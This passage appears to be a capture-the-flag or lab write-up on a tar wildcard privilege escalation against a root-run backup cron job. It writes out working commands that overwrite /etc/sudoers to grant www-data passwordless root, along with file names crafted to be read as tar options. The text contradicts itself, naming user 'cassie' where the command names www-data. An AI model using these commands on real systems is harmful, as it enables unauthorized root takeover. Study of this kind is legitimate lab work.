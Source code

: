 ![[Pasted image 20240823164808.png]]
The backup script found is being run by root. Since we know it is using a tar wildcard to create a tar file, we can exploit this for privesc

go to `/var/www/html`
```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
```
![[Pasted image 20240823165225.png]]

Above command adds user `cassie` to sudoers file allowing ALL commands with `sudo` permissions.

- wait for cronjob to run
```bash
sudo bash
```
![[Pasted image 20240823165258.png]]




